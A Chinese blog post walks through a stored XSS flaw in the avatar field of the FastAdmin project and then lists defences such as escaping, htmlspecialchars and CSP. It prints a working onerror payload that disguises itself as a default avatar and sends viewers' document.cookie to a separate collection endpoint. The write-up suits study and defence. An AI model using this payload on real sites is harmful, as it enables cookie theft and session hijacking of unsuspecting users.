 ```yaml
---
layout:     post
title:      XSS 攻击简单实现及防御
subtitle:   
date:       2019-11-21
author:     liuxu379
header-img: img/home-bg-o.jpg
catalog: true
tags:
 - PHP
 - XSS
 - Web安全
---
```


* 目录
  {:toc}

## 说明
之前项目里面用到了基于 **ThinkPHP5** 框架开发的 **Fast Admin** 开源项目，简单测试了一下，发现在个人资料页面，头像参数(**avatar**)未过滤特殊字符，导致存在 **XSS** 存储型漏洞。

----------

## 利用 XSS 窃取 Cookie


#### 准备
- **Fiddler**
- 接收 **Cookie** 的接口
- 数据库
- **Chrome**


进入会员中心-个人资料页面，配置好 **Fiddler** 对浏览器数据进行拦截。
![enter image description here]({{site.url}}/img/post-bg-xss.jpg?raw=true)

----------


#### 修改参数

此处使 img 提前闭合，并赋予错误的值，触发 **onerror**。
![enter image description here]({{site.url}}/img/post-bg-xss-1.jpg?raw=true)

将 **avatar** 参数改为以下代码并提交：
```
1" onerror="var url = 'http://192.168.40.2:98/assets/img/avatar.png'
var targetUrl = 'http://192.168.40.2:83/api/index/getCookie?cookie='
this.setAttribute('src', url)
setTimeout(function(){$.get(targetUrl.concat(document.cookie));},5000)
```

![enter image description here]({{site.url}}/img/post-bg-xss-2.jpg?raw=true)

> getCookie 用来接收 Cookie 参数并存入数据库，当任意用户加载当前用户头像时，会显示默认头像(用来伪装)，且将用户Cookie传到接口。

----------


## 防御
#### 前端
- HTML节点或属性中通过replace()方法使用正则表达式转义'<'、'>'、单引号、双引号和空格；
- JS中通过stringify()将对象或数组转换为JSON字符串；

#### PHP
- 使用内置函数进行转义
	- string_tags()，过滤所有HTML标签；
	- htmlspecialchars(value, ENT_QUOTES)，将'<'、'>'、单引号、双引号和&符号转化为HTML实体代码；
	
- 使用 DOM 白名单；
- 使用 Github 第三方库；
- 使用 CSP ;

----------


## 结束
这里只是简单利用一下，目的是为了强化自己对 **XSS** 漏洞危害的认知。后面也要经常关注安全方面的知识。
